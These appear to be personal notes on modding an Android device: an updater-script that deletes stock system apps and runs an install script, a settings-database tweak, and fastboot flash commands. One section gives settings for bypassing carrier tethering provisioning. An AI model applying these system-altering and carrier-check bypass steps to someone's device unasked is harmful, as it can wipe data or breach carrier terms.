    delete("/system/app/Provision.apk","/system/app/QuickSearchBox.apk","/system/app/SetupWizard.apk","/system/app/Velvet.apk","/system/app/Vending.apk","/system/app/BrowserProviderProxy.apk","/system/app/PartnerBookmarksProvider.apk");
    ui_print("Copying files...");
    package_extract_dir("system", "/system");
    package_extract_file("install-optional.sh", "/tmp/install-optional.sh");
    set_perm(0, 0, 0777, "/tmp/install-optional.sh");
    run_program("/tmp/install-optional.sh", "");
    show_progress(1, 15);
    ui_print("Fixing Permissions...");
    set_perm_recursive(0, 0, 0755, 0644, "/system/app");
    ui_print("Unmounting system...");
    run_program("/sbin/busybox", "umount", "/system");
    ui_print("Installation complete!");

*** sqlite3 queries
    run_program("/system/xbin/sqlite3", "/data/data/com.android.providers.settings/databases/settings.db", "insert into system values(null, 'statusbar_clock_color','-354816');");

** Tethering
   # Does not work on Nexus 6 AT&T
   /data/data/com.android.providers.settings/databases/settings.db
   Add new key to global table
   tether_dun_required:0

   # May work on Nexus 6 AT&T
   /system/build.prop
   net.tethering.noprovisioning=true

** Flashing
   fastboot flash recovery recovery.img
   fastboot flash boot boot.img
   fastboot flash system system.img
   fastboot flash userdata userdata.img
   fastboot flash staging blob
   fastboot flash dtb tegra114-roth.dtb

